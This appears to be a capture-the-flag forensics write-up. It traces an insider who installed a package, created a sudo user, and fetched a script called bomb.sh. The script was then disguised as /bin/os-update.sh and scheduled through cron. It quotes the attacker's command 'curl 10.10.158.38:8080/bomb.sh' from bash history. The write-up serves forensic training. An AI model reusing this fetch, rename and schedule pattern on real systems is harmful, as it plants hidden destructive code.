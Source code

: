 # Disgruntled

## Challenge Information
- **Challenge Name**: Disgruntled
- **Category**: Forensics
- **Difficulty Level**: Easy

## Task-1
1. Read the task carefully. Grab the Cup of Coffee and get ready to start ! :)

## Task-2
1. Review the given document carefully. Take a sip of the Coffee beacuase the journey is about to start! :)

## Task-3
1. To see the logs of the activites performed, the logs are present in the auth.log file where we can add the filter of `sudo` to see the logs for the activites assossiated with the elevated privileges, and `install` to see the logs for only installation. Hence, using the command 
```
cat /var/log/auth.log | grep 'sudo' | grep 'install'
``` 
gives usa result where the command is writtena against the variable `COMMAND` as `/usr/bin/apt install dokuwiki`.

2. In the same result, the current directory is written against `PWD` as `/home/cybert`.

## Task-4
1. Since we have to figure out the creation of user, the command in the linux used to create a new user starts with `adduser`. So now lets read the log file with this filter, using the command 
```
cat /var/log/auth.log | grep 'sudo'
```
This will give us the newly created user `it-admin`.

2. When editing the sudoers file, the command starts with `visudo`. So lets jsut add this keyword now, using the command 
```
cat /var/log/auth.log | grep 'visudo'
```
This will give two logs. The log with the user `cybert`, is the required one, with the time `Dec 28 06:27:34`.

3. Since the file was opened using the vi text editor, add this as a filter in the command 
```
cat /var/log/auth.log | grep 'vi'
```
This will give us the command in which the script was opened `bomb.sh`.

## Task-5
1. Now for the logs of the commands, we will read the file `.bash_history` for the user `it-admin`. Run the command 
```
cat /home/it-admin/.bash_history
```
This will show the command that was used to create the file bobm.sh: 
`curl 10.10.158.38:8080/bomb.sh --output bomb.sh`.

2. Since the renaming of the file is concerned when the file was eidted or saved using the editor tool used, we can see the logs of the `.viminfo`. To see the information, run the command 
```
cat /home/it-admin/.viminfo
```
Here in the logs, there is a log containing the information of `saveas`, which contains the new renamed file `/bin/os-update.sh`.

3. To see when this .viminfo file was last updated, we can see the full time using the command 
```
ls -la --full-time /home/it-admin/.viminfo
```
This will give the time `2022-12-28 06:29:52`, which we can right in the required format `Dec 28 06:29`.

4. Since we know the latest path of the new renamed file `/bin/os-update.sh`, we can read its contents to the see the file that will get created. Run the command 
```
cat /bin/os-update.sh
```
Here in the contents of the script, the file can be seen as `goodbye.txt`.

## Task-6
1. The scheduled tasks can be seen in the `crontab` file. Running the command 
```
cat /etc/crontab
```
will give some output in which we can see the scheduling for the malicious script as well. In the starting of the line of that job, we can see the time as `0 8` which refers to the time `08:00 AM`.

## Task-7
1. Click on the acknowledgement and enjoy the Badge!
